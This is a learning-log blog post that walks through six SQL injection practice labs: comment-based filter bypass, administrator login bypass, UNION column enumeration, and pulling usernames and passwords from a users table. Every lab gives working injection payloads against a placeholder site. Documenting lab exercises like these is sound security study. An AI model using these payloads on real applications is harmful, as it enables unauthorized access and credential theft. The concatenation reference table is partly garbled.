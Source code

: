 This blog documents my daily learning progress through practical SQL Injection labs. The exercises below demonstrate various SQL Injection techniques used to exploit common vulnerabilities in web applications. Each lab includes context, objectives, methods used, and successful payloads.

# Lab 1 - Retrieving Hidden Data via SQL Injection
Lab Description:
This lab contains a SQL injection vulnerability in the product category filter. The SQL query used is:

sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
Objective:
Exploit the SQL injection vulnerability to retrieve unreleased products from the database.

Solution Strategy:
By injecting a comment to bypass the released = 1 condition:

arduino
https://insecure-website.com/products?category=Gifts'--
This modifies the query to:

sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
Using a Boolean-based condition:

arduino
https://insecure-website.com/products?category=Gifts'+OR+1=1--
This ensures the query always returns true and displays all products, including unreleased ones.

# Lab 2 - Login Bypass via SQL Injection
Lab Description:
The lab simulates a login form vulnerable to SQL injection.

Objective:
Bypass the authentication mechanism to log in as the administrator.

Exploitation Example:

Injecting in the username field:

vbnet
Username: administrator'--
This changes the SQL query to:

sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
Alternatively, using a Boolean-based payload:

vbnet
Username: administrator  
Password: ' OR 1=1 --

# Lab 3 - Determining the Number of Columns via UNION
Lab Description:
The lab requires using the UNION SQL operator to determine how many columns exist in the original query.

Objective:
Discover the number of columns in the result set to proceed with further UNION-based attacks.

Methods Used:

Using ORDER BY clause to find the column count:

pgsql
' ORDER BY 1--
' ORDER BY 3--
Increase the number until an error is returned.

Using UNION with NULL values:

sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
Gradually increase the number of NULL values until no error is thrown, indicating a match with the number of columns.

# Lab 4 - Finding a Text-Compatible Column
Lab Description:
This lab requires identifying which columns can hold text values to display extracted data.

Objective:
Determine which column can be used to extract and display usernames or passwords.

Steps:

Identify column count:

vbnet
' UNION SELECT NULL,NULL--
Check which column supports text:

sql
' UNION SELECT 'abc',NULL--
' UNION SELECT NULL,'abc'--
Extract data:

bash
' UNION SELECT NULL,username||'*'||password FROM users--

# Lab 5 - Retrieving Data from Other Tables
Lab Description:
This lab focuses on using UNION to retrieve information from unrelated tables in the database.

Objective:
Extract username and password from the users table.

Steps Followed:

Determine the number of columns:

vbnet
' UNION SELECT NULL,NULL--
Verify columns can hold text:

bash
' UNION SELECT 'abc','def'--
Final data extraction payload:

vbnet
' UNION SELECT username, password FROM users--

# Lab 6 - Retrieve Multiple Values in a Single Column
Lab Description:
This lab involves using string concatenation to combine and extract multiple values into one output column.

Objective:
Concatenate username and password and display them in a single result field.

Steps Taken:

Identify the text-compatible column:

bash
' UNION SELECT NULL,'abc'--
Use concatenation to extract data:

bash
' UNION SELECT NULL,username||'~'||password FROM users--
String Concatenation Reference Table:

Database	Concatenation Syntax
Oracle	`'a'
PostgreSQL	`'a'
MySQL	CONCAT('a','b')
SQL Server	'a' + 'b'

Each of these labs provided a strong foundation for understanding SQL injection techniques and how to exploit and mitigate such vulnerabilities in real-world applications.

Stay tuned for more daily progress as I continue exploring the world of web application security.

